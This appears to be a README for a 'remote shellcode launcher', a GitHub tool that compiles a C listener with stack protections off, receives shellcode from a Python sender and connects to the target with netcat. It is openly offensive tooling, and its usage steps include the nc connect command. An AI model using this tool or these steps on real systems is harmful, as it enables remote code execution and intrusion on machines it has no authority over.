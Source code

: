# Remote Shellcode Launcher
Simple remote shellcode launcher
<img src="screenshot.png" hight=600>
How To Use
=
## Compile C file
```
gcc -fno-stack-protector -z execstack launcher.c -o launcher
```
## Listen To Get Shellcode
```
chmod +x launcher
./launcher
```
## Send Shellcode
```
python sender.py
```
## Connect To Client
```
nc -v <HOST> <PORT>
```
## Notes
#### You can change port connection in files and set custom shellcode in ```sender.py``` file.
